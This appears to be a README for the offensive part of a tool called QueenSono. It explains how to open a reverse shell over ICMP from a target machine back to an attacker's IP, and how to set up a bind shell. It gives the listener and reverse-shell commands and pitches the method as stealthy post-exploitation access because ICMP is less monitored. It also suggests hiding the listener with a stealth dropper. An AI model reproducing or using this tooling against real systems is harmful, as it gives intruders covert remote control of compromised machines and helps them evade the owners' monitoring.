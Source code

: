 # Hack

Some fun things using `QueenSono`

## Reverse Shell
<h5 align="center">In <code>QueenSono/hack/reverse-shell</code></h5>

<p align="center"><i> It a "reverse shell" trough ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** if ICMP is less monitored than other protocol (eg TCP), having a reverse shell trough `QueenSono` is more more stealthy.

#### How to do it
*> On the attacker machine:* Put your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the target machine:* Provide the reverse shell
```
./reverse-shell.sh <ip_attacker> <ip_listening_for_icmp>
```


### Bindshell

Sometimes, and for the ***post exploitation*** phase it is more suited, you need a bind shell. That is to say the `listener` will be on the "compromised" machine and the attacker will "bind" this shell.

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*
